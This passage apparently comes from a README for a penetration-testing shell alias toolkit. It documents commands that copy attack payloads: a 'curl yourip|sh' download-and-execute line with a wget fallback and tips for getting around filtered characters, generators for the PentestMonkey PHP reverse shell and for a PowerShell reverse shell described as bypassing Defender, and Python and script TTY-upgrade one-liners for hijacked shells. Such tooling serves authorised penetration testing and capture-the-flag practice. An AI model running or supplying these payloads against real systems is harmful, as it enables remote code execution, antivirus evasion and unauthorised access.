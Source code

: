 ```
```
> #### Notes
> - I really like how the `curl yourip|sh` payload doesn't really have any badchars besides possibly the space and the pipe. When spaces form an issue there are [ways around this](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces) and the pipe can be bypassed by just downloading and executing separately.
> - If curl is not installed on the remote machine you can try `wget yourip -O-|sh`
 

### > gen_php_rev $ip $port

Generates the [PentestMonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) with the supplied ip and port and saves it in the current directory.  
Example: 
```
┌──(root㉿pain)-[~]
└─$ gen_php_rev 127.0.0.1 1337                                                              
[+] Wrote PHP reverse shell to /home/pain/pain.php
```
### > gen_ps_rev $ip $port
Generates a Powershell reverse shell with the supplied ip and port which at the moment of last usage bypassed defender. I'm not sure who to give credit for this payload. 
Example:
```
┌──(root㉿pain)-[~]
└─$ gen_ps_rev 127.0.0.1 1337
```
Clipboard contents after:
```
powershell -ec JABUAGEAcgBnAGUAdABIAG8AcwB0A...
```

## TTY upgrades
### > uptty
Copies the python(2) and python3 tty upgrade command to the clipboard. 
Example: 
```
┌──(root㉿pain)-[~/pain]
└─$ uptty
```
Clipboard contents after:
```
python3 -c 'import pty;pty.spawn("/bin/bash")';python -c 'import pty;pty.spawn("/bin/bash")'
```
> #### Notes
> - Requires `xclip` to be installed
> - `py_tty_upgrade` and `py3_tty_upgrade` are still included for now but will call this alias instead

### > script_tty_upgrade
When Python is not installed on the remote machine you can use this command to copy the `script` method to upgrade to a tty shell to your clipboard. 
Example: 
```
┌──(root㉿pain)-[~/pain]
└─$ script_tty_upgrade
```
Clipboard contents after:
```
/usr/bin/script -qc /bin/bash /dev/null
```
> #### Notes
> - Requires `xclip` to be installed
